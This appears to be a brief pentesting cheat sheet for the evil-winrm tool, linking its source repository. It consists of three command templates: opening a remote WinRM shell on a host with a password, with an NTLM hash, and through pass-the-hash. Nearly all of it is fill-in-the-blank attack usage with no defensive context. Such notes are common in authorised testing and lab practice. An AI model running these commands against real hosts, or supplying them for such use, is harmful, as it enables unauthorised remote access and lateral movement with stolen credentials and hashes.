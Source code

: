### Source
https://github.com/Hackplayers/evil-winrm  

### Start shell on host (port 5985,5986)
```
evil-winrm -i <ip> -u <user> -p <password>
```

### Using ntlm hash
```
evil-winrm -i <ip> -u <user> -H <ntlmHash>
```

### Pass the hash
```
evil-winrm -u <user> -H <Hash> -i <IP>
```

